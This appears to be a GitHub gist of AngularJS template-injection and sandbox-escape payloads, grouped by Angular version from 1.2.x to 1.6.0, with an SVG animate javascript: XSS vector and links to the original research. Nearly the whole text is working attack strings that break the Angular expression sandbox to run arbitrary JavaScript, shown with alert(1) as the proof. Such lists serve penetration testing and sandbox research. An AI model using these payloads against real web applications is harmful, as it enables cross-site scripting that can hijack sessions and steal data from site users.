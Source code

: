 ##
#
https://gist.github.com/mccabe615/cc92daaf368c9f5e15eda371728083a3
#
##

#### 1.3.2 and below 

`{{7*7}}`

```
'a'.constructor.fromCharCode=[].join;
'a'.constructor[0]='\u003ciframe onload=alert(/Backdoored/)\u003e';
```

```
{{
    'a'.constructor.prototype.charAt=[].join;
    $eval('x=""')+''
}}
```


```
{{
    'a'.constructor.prototype.charAt=[].join;
    $eval('x=alert(1)')+''
}}
```

`{{constructor.constructor('alert(1)')()}}`

```
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

```
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```

```
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

```
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```

```
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

```
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
```

```
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
```
    
```
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
```

#### 1.3.3 

As literal object: `{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(Evaluated Object Literal)');}}`

As Array: `{{x = [''.constructor.prototype]; x[0].charAt=[].join; $eval('x=alert(Evaluated Array)');}}`

Versions 1.3.0 - 1.5.7:
```
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}
```

Versions 1.2.20 - 1.2.29:
```
{{a="a"["constructor"].prototype;a.charAt=a.trim;$eval('a",alert(alert=1),"')}}
```

Version 1.2.19:
```
{{c=toString.constructor;p=c.prototype;p.toString=p.call;["a","alert(1)"].sort(c)}}
```

Versions 1.2.6 - 1.2.18:
```
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

Versions 1.2.0 - 1.2.5:
```
{{a="a"["constructor"].prototype;a.charAt=a.trim;$eval('a",alert(alert=1),"')}}
```

SVG
```
<svg>
  <a xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="?">
    <circle r="400"></circle>
    <animate attributeName="xlink:href" begin="0" from="javascript:alert(1)" to="&" />
  </a>
</svg>
```

Angular 1.5.9
Jan Horn sandbox escape
```
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```

Angular 1.6.0
```
<script src="//ajax.googleapis.com/ajax/libs/angularjs/1.6.0/angular.min.js"></script>
{{0[a='constructor'][a]('alert(1)')()}}
```


http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html
https://github.com/angular/angular.js/issues/14939
https://github.com/angular/angular.js/pull/11290
